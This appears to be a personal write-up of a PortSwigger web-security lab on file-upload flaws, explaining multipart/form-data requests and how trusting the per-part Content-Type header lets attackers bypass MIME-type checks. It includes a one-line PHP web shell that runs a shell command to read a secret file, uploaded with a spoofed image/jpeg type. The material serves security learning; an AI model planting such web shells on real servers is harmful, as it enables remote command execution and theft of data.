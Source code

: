 ```yaml
---
tags: ["webshell", "MIME"]
image: "img/Portswigger/file-upload.jpg"
---
```


## Flawed file type validation

When submitting HTML forms, your browser typically sends the provided data in a `POST` request with the content type `application/x-www-form-url-encoded`. This is fine for sending simple text like your name, address, and so on, but is not suitable for sending large amounts of binary data, such as an entire image file or a PDF document. In this case, the content type `multipart/form-data` is the preferred approach.

Consider a form containing fields for uploading an image, providing a description of it, and entering your username. Submitting such a form might result in a request that looks something like this:

```
POST /images HTTP/1.1
Host: normal-website.com
Content-Length: 12345
Content-Type: multipart/form-data; boundary=---------------------------012345678901234567890123456

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="image"; filename="example.jpg"
Content-Type: image/jpeg

[...binary content of example.jpg...]

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="description"

This is an interesting description of my image.

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="username"

wiener
---------------------------012345678901234567890123456--
```

As you can see, the message body is split into separate parts for each of the form's inputs. Each part contains a `Content-Disposition` header, which provides some basic information about the input field it relates to. These individual parts may also contain their own `Content-Type` header, which tells the server the MIME type of the data that was submitted using this input.

One way that websites may attempt to validate file uploads is to check that this input-specific `Content-Type` header matches an expected MIME type. If the server is only expecting image files, for example, it may only allow types like `image/jpeg` and `image/png`. Problems can arise when the value of this header is implicitly trusted by the server. If no further validation is performed to check whether the contents of the file actually match the supposed MIME type, this defense can be easily bypassed using tools like Burp Repeater.

## Challenge

> This website only filters the file on the basis of MIME type and we have to bypass it and find the flag which is in `/home/carlos/secret`

--> So i used the same payload as previous lab:

```php
<?php echo shell_exec('cat /home/carlos/secret'); ?>
```

--> After intercepting the upload request i changed the MIME type to `image/jpeg` and it worked!

![](Attachments/Pastedimage20220124123815.png)

--> After going to the image location i got the flag!

![](Attachments/Pastedimage20220124123719.png)
